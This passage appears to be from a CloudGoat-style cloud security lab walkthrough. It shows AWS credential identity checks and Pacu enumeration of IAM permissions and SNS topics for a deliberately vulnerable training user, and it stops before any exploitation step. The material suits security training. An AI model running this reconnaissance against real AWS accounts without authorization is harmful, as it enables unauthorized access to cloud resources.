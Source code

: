```bash
aws sts get-caller-identity --profile sns
```

Output (Partial):

```json
{
  "Account": "[REDACTED]",
  "Arn": "arn:aws:iam::[REDACTED]:user/cg-sns-user-<unique>"
}
```

---

## 🔎 Privilege Enumeration Using Pacu

Launch Pacu and import the session:

```bash
pacu
import_keys
```

Run the IAM permissions enumeration module:

```bash
run iam__enum_permissions
```

**Results**:

- 11 confirmed permissions, primarily related to SNS, IAM read access, and API Gateway.

Use `whoami` to view detailed access:

```json
"Allow": {
  "sns:subscribe": "*",
  "sns:receive": "*",
  "sns:listtopics": "*",
  "sns:listsubscriptionsbytopic": "*",
  "sns:gettopicattributes": "*",
  "iam:getuserpolicy": "*",
  "iam:listuserpolicies": "*",
  "iam:listgroupsforuser": "*",
  "iam:listattacheduserpolicies": "*",
  "apigateway:get": "*" (with explicit Deny for specific API Gateway resources)
}
```

---

## 📡 Discovering SNS Topics

Run the SNS enumeration module:

```bash
run sns__enum --region us-east-1
```
